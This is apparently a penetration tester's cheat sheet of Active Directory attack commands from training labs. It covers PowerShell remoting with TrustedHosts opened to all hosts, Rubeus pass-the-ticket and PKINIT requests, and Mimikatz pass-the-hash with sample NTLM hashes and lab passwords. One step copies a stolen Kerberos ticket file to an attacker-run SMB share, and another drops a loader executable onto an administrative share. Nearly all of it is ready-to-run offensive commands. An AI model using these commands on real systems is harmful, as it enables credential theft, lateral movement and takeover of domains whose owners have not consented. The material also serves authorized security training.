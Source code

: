 - Start an interactive session with a remote computer.
`Enter-PSSession -ComputerName <COMPUTER> -Credential $cred`

`Enter-PSSession -Id <SessionId> -Credential $cred`

```powershell
$usmgmt = New-PSSession us-mgmt
Enter-PSSession $usmgmt -Credential $cred
```

- Create a persistent PSSession on a local or remote computer.
`New-PSSession -ComputerName <COMPUTER> -Credential $cred`

- Modify the WSMan Trustedhosts property on a computer to be able to connect to an IP address instead of using a hostname
`Set-Item WSMan:\localhost\Client\TrustedHosts * -Force`

- Start an interactive session with a remote computer using it's IP address.
`Enter-PSSession 192.168.102.1 -Authentication NegotiateWithImplicitCredential`
#### File Transfers
- Transfer Files via SCP
`scp htb-student@10.129.176.110:/opt/host-enum.txt host-enum.txt`

- Transfer Files via SMB
`impacket-smbserver Docs -smb2support . -user test -password test`
`net use n: \\10.10.14.100\Docs /user:test test`
`copy .\0-40e10000-htb-student@krbtgt~INLANEFREIGHT.LOCAL-INLANEFREIGHT.LOCAL.kirbi \\10.10.14.100\Docs\`

- Transfer files through Windows computers using CIFS.
```powershell
net use x: \\us-mailmgmt\C$\Users\Public /user:us-mailmgmt\Administrator t7HoBF+m]ctv.]
echo F | xcopy C:\AD\Tools\Loader.exe x:\Loader.exe
# when finished
net use x: /d
```
#### Rubeus
- Create sacrificial process.
`.\Rubeus.exe createnetonly /program:'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe' /username:studentuser /password:xz509bW84Z66q6atPVOB1 /domain:citadel.local /show`

- Create a new PowerShell process while executing a Pass-the-Ticket impersonation attack.
`.\Rubeus.exe asktgt /user:Administrator /rc4:BC4CF9B751D196C4B6E1A2BA923EF33F /domain:techcorp.local /createnetonly:C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /show /ptt`

- For a CMD process, use `C:\Windows\System32\cmd.exe`.

- Request a TGT using PKINIT.
`.\Rubeus.exe asktgt /user:certstore /certificate:C:\Auditor\Loot\certstore.pfx /domain:cb.corp /dc:cb-ca.cb.corp /password:certpass /nowrap /ptt /getcredentials`

#### Mimikatz/Safetykatz
- Create a new PowerShell process while executing a Pass-the-Ticket impersonation attack.
`.\mimikatz.exe "sekurlsa::pth /user:administrator /domain:bastion.local /ntlm:f29207796c9e6829aa1882b7cccfa36d /run:powershell.exe" "exit"`
